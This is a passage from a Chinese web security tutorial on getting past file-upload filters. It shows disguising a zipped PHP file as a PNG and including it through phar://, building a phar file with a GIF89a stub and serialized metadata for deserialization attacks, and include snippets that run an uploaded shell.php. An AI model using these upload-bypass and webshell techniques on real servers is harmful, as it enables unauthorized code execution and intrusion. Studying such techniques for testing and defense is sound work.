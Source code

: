 filename[1] = php<br>
filename[0] = png<br>

# **三、zip、phar文件上传**
此类文件上传的绕过一般都是配合文件包含进行的，以压缩文件形式绕过上传限制，通过phar协议进行文件包含，执行webshell。

* ****zip上传绕过****：我们先创建一个php文件，里面输入<?php echo phpinfo(); ?>就行了，接下来我们把php文件压缩成zip文件，必须通过测试发现只支持上传png文件，所以我们把zip文件改成png，<br>
(1.php→压缩→1.zip→重命名→1.png→上传),然后通过?file=phar://uploads/xxx.png/1进行文件包含。

* ****phar文件上传绕过****：

  phar文件结构<br>

  A stub ：可以理解为一个标志，格式为xxxHALT_COMPILER();?>，前面内容不限，但必须以_HALT_COMPILER();?>来结尾，否则phar扩展将无法识别这个文件为phar文件。

  A manifest describing the contents ：phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。

  The file contents ：被压缩文件的内容

  A signature for verifying Phar integrity ：签名，放在文件末尾

  生成phar文件的示例代码：（注意：要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件）

```{.php}
  <?php
  class PharDemo{
      private $message;
      public function __construct($msg){
          $this->message = $msg;
      }
      function __destruct(){
          echo $this->message;
      }
  }
  $phar = new Phar("phar.phar");
  $phar->startBuffering();
  $phar->setStub(",GIF89a.<?php __HALT_COMPILER(); ?>"); //设置stub,可设置GIF89a.头，绕过文件后缀检测
  $o = new PharDemo("oh oh oh !!!");
  $phar->setMetadata($o); //将自定义的meta-data存入manifest
  $phar->addFromString("test.txt", "test"); //添加要压缩的文件
  //签名自动计算
  $phar->stopBuffering();
```

```{.php}
  callphar.php
  <?php
      include 'phar://my.phar/shell.php';
  ?>
  //访问callphar.php即可调用shell.php
  //注意：phar文件不受文件名限制，即my.phar可以任意的重命名为aaa.bbb
  callphar.php
  <?php
      include 'phar://aaa.bbb/shell.php';
  ?>
```
